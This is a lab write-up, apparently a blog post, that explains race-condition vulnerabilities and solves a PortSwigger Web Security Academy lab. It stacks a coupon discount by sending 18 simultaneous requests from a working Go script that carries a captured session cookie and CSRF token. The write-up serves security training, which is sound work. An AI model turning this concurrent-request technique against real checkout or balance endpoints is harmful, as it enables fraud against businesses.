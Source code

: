 # Portswigger Web Security Academy | Race Conditions Lab #1

Hi all! Today we’ll be solving the first Race Condition lab of the PortSwigger Web Security Academy. Let’s start!

---

Before starting the lab, let me briefly explain what a race condition vulnerability is, why it happens, and how hackers exploit it.

Explaining this type of vulnerability using only words is difficult, so I want to go over the illustrations also used by PortSwigger. You can also check PortSwigger’s official documentation [**here**](https://portswigger.net/web-security/race-conditions).

Alright, say you’re a developer and your manager asks you to develop a coupon feature where users can enter their coupon codes. If the code has never been used by the user, it adds a 10% discount to their cart. Simple and neat feature. The most straightforward logic for such a feature would look like this:

1.  Check if the coupon is valid
2.  Check if the user is valid
3.  Check if user has used the coupon
4.  If it’s used, reject the request
5.  If it’s not used, apply the discount and mark the coupon so the same user can’t use it again

There’s no problem with this flow—yet. Here’s the illustration for this flow:

![Rate Limit 1](./images/rate-limit-1.png)

As you can see in the illustration, requests are serialized—in other words, they’re not processed at the same time. After request 1 is processed, then request 2 is processed by the server. But this is not how modern web applications work. Otherwise, we’d have terrible performance issues. Imagine if Google worked this way—only one user’s request could be processed at a time. If that were the case, no one could use Google services as smoothly as they do today.

So what modern systems do is start processing requests immediately after they’re made. While this improves performance and user experience, it creates a problem with the logic we explained above. Let me show the image first, and then explain the issue in more depth:

![Rate Limit 2](./images/rate-limit-2.png)

Since request 2 doesn’t wait for request 1 to finish processing, we get a race condition, and the same coupon code gets used multiple times, applying the discount more than once.

![Money](./images/money.gif)

It happens because before request 1 marks the coupon as **“used”** for the user, request 2 arrives. During its check, it sees the coupon as **“not used”**, so it also applies the discount—right after request 1 is made.

To solve this issue, we need to implement some form of serialization or concurrency control. However, I’m not going to explain those approaches in this article. You can look up optimistic and pessimistic concurrency control for more details. Now let’s start solving our lab!

### Lab Description

![Lab Desc](./images/lab-desc.png)

Alright, let’s log in as the wiener user and see what we can do.

We can see the promo code in the header section. Let’s add some products to our cart, apply the coupon, and capture the HTTP request being made to the apply-coupon function.

![Burp Request](./images/burp.png)

This is the function we’ll exploit to buy the Leather Jacket. The wiener user’s balance is $50. So we need to apply the discount multiple times to reduce the $1337 price to at least $50. Using this formula:

```
1337 * (0.8)^x <= 50

What's min x ?
x = 15
```

This is the Go script we’ll use to perform the same request 15 times almost simultaneously. You don’t need to use Go, by the way—Python, Go, JavaScript… it doesn’t matter, as long as you can send multiple requests at once.

```go
package main

import (
	"fmt"
	"io"
	"net/http"
	"strings"
	"sync"
)

const (
	CONCURRENT_REQUESTS = 18
	FORM_DATA           = "csrf=rupklm4Pxc8qqrdvO8pBlXBTgzMKl1xD&coupon=PROMO20"
	SESSION             = "session=6YCdEjgvKV3T41pTbZfY55pn7aTadlvw"
	URL                 = "https://0a58005703828cd4810393fa00df008e.web-security-academy.net/cart/coupon"
)

func main() {
	// WaitGroup to track completion of goroutines
	var wg sync.WaitGroup
	// Mutex to protect shared successCount
	var mutex sync.Mutex
	// Counter for successful requests
	var successCount int

	// Launch concurrent requests
	for i := range CONCURRENT_REQUESTS {
		wg.Add(1)
		// Start goroutine for each request
		go func(requestNum int) {
			defer wg.Done()

			// fmt.Printf("[%d] Request Started\n", i)

			// Create new HTTP POST request with form data
			req, err := http.NewRequest("POST", URL, strings.NewReader(FORM_DATA))
			if err != nil {
				fmt.Printf("Error creating request %d: %v\n", requestNum, err)
				return
			}

			// Add session cookie to request headers
			req.Header.Add("Cookie", SESSION)

			// Create HTTP client that doesn't follow redirects
			client := &http.Client{
				CheckRedirect: func(req *http.Request, via []*http.Request) error {
					return http.ErrUseLastResponse
				},
			}

			// Send the request
			resp, err := client.Do(req)
			if err != nil {
				fmt.Printf("Error making request %d: %v\n", requestNum, err)
				return
			}
			defer resp.Body.Close()

			// Read response body
			body, err := io.ReadAll(resp.Body)
			if err != nil {
				fmt.Printf("Error reading response body %d: %v\n", requestNum, err)
				return
			}

			bodyStr := string(body)
			// fmt.Printf("[%d] Request completed with status: %s\nBody: %s\n", requestNum, resp.Status, bodyStr)

			// If coupon was successfully applied, increment counter
			if bodyStr == "Coupon applied" {
				mutex.Lock()
				successCount++
				mutex.Unlock()
			}
		}(i)
	}

	// Wait for all requests to complete
	wg.Wait()
	fmt.Printf("Total requests: %d\nSuccessful requests: %d\n", CONCURRENT_REQUESTS, successCount)
}

```

```
Total requests: 18
Successful requests: 18
```

![Result](./images/result.png)

After purchasing the leather jacket, the lab is solved. Thanks for reading, and have a nice day!
